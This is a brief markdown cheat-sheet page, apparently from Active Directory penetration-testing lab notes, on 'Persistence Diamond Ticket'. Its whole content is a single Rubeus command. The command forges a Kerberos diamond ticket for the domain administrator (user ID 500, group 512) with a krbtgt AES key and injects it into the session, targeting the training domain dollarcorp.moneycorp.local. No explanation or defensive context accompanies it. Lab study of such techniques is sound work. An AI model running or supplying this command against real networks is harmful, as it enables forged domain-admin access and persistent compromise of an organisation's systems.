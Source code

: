 # Persistence Diamond Ticket

![Diamond Ticket](#persistence_diamond_ticket.png)

## Index:
  1.[Attack](#attack)
  

## attack

```
C:\AD\Tools\Rubeus.exe diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createonly:C:\Windows\System32\cmd.exe /show /ptt
```
